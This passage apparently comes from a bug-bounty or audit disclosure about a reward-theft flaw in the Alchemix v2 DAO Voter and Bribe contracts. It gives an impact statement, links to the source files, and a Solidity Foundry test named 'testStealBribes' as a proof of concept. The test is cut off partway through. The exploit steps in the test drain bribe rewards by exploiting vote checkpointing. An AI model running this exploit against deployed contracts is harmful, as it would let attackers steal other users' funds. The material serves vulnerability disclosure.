 ## Impact Details
The impact of this issue will vary based on the participating voters voting power and the pool allocations and can span from rewards being fully stolen to partially stolen and preventing all / some users from claiming theirs because of a lack of funds to cover their shares. 

## References
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L332-L380
* https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol


## Proof of Concept
```solidity
    function testStealBribes() public {
        uint256 tokenId1 = createVeAlcx(admin, 2 * TOKEN_1, MAXTIME, false);

        Bribe sushiGaugeBribe = Bribe(voter.bribes(address(sushiGauge)));
        address sushiGaugeBribeToken = sushiGaugeBribe.rewards(0);

        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 1;

        // Notify rewards to sushi bribe
        createThirdPartyBribe(address(sushiGaugeBribe), sushiGaugeBribeToken, TOKEN_1);

        skip(1 days);
        // Vote for tokendId1
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        // Go to next epoch
        hevm.warp(newEpoch());

        address[] memory bribes = new address[](1);
        bribes[0] = address(sushiGaugeBribe);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = sushiGaugeBribeToken;

        // admin claims Bribe rewards from previous epoch.
        // This calls Bribe@getRewardForOwner setting lastEarn time for the given token and triggering a new checkpoint for that token.
        // admin gets all the rewards as he is the only who voted in the previous epoch.
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        skip(1 days);
        // Distribute gauge rewards
        // This calls Bribe@resetVoting which set totalVoting to 0 in that Bribe without triggering a voting checkpoint.
        voter.distribute();

        skip(1 days);
        // Notify rewards to sushi bribe again
        createThirdPartyBribe(address(sushiGaugeBribe), sushiGaugeBribeToken, TOKEN_1);

        // Two other users now vote in this epoch.
        // This call Bribe@deposit (amongst other calls) and triggers new token, voting and supply checkpoints.
        // If no other users vote here, admin will just get the full bribe rewards.
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);
```